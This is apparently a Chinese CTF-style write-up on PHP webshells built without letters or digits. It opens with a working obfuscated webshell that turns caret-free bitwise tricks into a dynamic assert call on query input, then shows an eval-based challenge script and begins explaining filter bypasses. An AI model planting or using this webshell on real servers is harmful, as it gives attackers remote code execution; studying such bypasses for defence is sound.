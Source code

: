 



```php
<?php
$__=[]==[];
$_=~((样)[$__]);
$_.=~((上)[$__]);
$_.=~((了)[$__]);
$_.=~((站)[$__]);
$$_[$__]($$_[$__.$__]);

?1=assert&11=phpinfo();
```

# 无字母数字webshell之提高篇

**copy自phithon**

```php
<?php
  if(isset($_GET['code'])){
  $code = $_GET['code'];
if(strlen($code)>35){
  die("Long.");
}
if(preg_match("/[A-Za-z0-9_$]+/",$code)){
  die("NO.");
}
eval($code);
}else{
  highlight_file(__FILE__);
}
```

这个代码如果要getshell，怎样利用？

这题可能来自是我曾写过的一篇文章：《[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)》，里面介绍了如何构造无字母数字的webshell。其中有两个主要的思路：

1. 利用位运算
2. 利用自增运算符

当然，这道题多了两个限制：

1. webshell长度不超过35位
2. 除了不包含字母数字，还不能包含$和_

难点呼之欲出了，我前面文章中给出的所有方法，都用到了PHP中的变量，需要对变量进行变形、异或、取反等操作，最后动态执行函数。但现在，因为$不能使用了，所以我们无法构造PHP中的变量。

所以，如何解决这个问题？

## [PHP7 下简单解决问题](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=2#php7)
